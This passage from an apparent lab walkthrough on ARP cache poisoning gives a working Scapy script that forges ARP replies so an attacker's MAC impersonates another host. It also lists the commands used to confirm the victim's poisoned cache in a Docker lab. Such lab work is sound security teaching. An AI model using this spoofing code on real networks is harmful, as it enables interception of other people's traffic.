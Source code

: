     # Construct the ARP packet
    # op=2 signifies an ARP Reply
    # hwsrc = Sender MAC -> Attacker's MAC (MAC_M)
    # psrc  = Sender IP  -> IP we want to impersonate (IP_B)
    # hwdst = Target MAC -> Victim's MAC (MAC_A)
    # pdst  = Target IP  -> Victim's IP (IP_A)
    arp = ARP(op=2, hwsrc=MAC_M, psrc=IP_B, hwdst=MAC_A, pdst=IP_A)

    # Combine Ethernet and ARP layers
    packet = ether/arp

    # Send the packet at Layer 2
    sendp(packet, iface="eth0", verbose=False)

    print("Packet sent.")
    print("------------------------------------")
    ```

2.  **Ensure Wireshark is Capturing:**
    Make sure your Wireshark capture is still running on the correct `br-xxxx` interface. If you stopped it, start a new capture (you'll append the packets). Remember the `arp` filter can be helpful.

3.  **Scenario 1: B's IP is already in A's cache**
    *   **Establish Cache Entry (on Host A):** Log into Host A (`docker exec -it fc50e4e36736 bash`) and ping Host B once to make sure A learns B's *correct* MAC address:
        ```bash
        ping -c 1 10.9.0.6
        ```
    *   **Verify Cache (on Host A):** Check the ARP cache. You should see the correct mapping for `10.9.0.6` to `02:42:0a:09:00:06`.
        ```bash
        arp -n
        ```
    *   **Run the Attack Script (on Host M):** Execute the reply script:
        ```bash
        sudo python3 task1b.py
        ```
    *   **Check Cache Again (on Host A):** Re-run `arp -n` on Host A. Observe if the MAC address associated with `10.9.0.6` has changed to M's MAC (`02:42:0a:09:00:69`).

4.  **Scenario 2: B's IP is not in A's cache**
    *   **Clear Cache Entry (on Host A):** Delete the specific ARP entry for Host B:
        ```bash
        arp -d 10.9.0.6
        ```
    *   **Verify Cache is Clear (on Host A):** Run `arp -n` again. The entry for `10.9.0.6` should be gone.
    *   **Run the Attack Script (on Host M):** Execute the reply script again:
        ```bash
        sudo python3 task1b.py
        ```
    *   **Check Cache Again (on Host A):** Run `arp -n` one more time. See if an entry for `10.9.0.6` has been created and if it maps to M's MAC (`02:42:0a:09:00:69`).
